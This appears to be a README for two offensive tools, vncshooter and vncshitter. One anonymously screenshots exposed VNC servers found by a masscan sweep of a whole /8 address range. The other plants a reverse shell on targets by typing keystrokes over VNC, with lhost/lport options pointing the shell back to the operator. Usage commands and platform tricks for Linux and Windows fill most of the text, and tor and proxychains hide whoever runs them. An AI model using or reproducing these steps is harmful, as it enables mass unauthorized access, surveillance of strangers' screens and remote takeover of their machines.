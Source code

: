 # vncshooter & vncshitter


**vncshooter** will parse a textfile, extract all ip's, attempt to connect to the target via a vnc connection and anonymously take a screenshot. (requires tor, proxychains, vncsnapshot)

**vncshitter** can automatically place a reverse shell on a target, by anonymously sending keystrokes over a vnc connection (requires tor, proxychains, vncdotool)




use masscan to gather target ip's


    sudo masscan -p5900 85.0.0.0/8 --resume paused.conf --rate 10000 >> 85.output
    
    
    
use vncshooter to take screens
    
    
    ./vncshooter 85.output



use vncshitter to deploy a shell


    Usage: ./vncshitter --rhost=x.x.x.x [--rport=5900] [--lhost=x.x.x.x] [--rport=4444] [--platform=linux-gui]

    [rhost] = Remote ip (required)
    [rport] = Remote port (default: 5900)
    [lhost] = Local host to bind default shell to (default: your external ip)
    [lport] = Local port to bind default shell to (default: 4444)
    [platform] = (default: linux-gui)
                 linux-gui: will work on default ubuntu etc (using alt+ctrl+t -> terminal -> payload)
                 win: will work on win7+ (using windows_key+r -> run -> cmd -> payload)
